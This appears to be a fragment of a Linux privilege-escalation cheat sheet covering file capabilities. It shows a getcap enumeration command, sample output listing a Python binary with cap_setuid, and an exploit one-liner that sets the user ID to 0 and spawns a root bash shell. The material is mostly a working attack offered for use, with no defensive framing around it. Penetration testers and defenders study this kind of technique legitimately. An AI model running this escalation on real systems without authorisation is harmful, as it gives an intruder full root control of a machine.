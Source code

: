  ## Capabilities 
 
 
 Type Command
 
    getcap -r / 2>/dev/null
 
Output
 
    /usr/bin/python2.6 = cap_setuid+ep
   
   
Exploit
 
    /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   
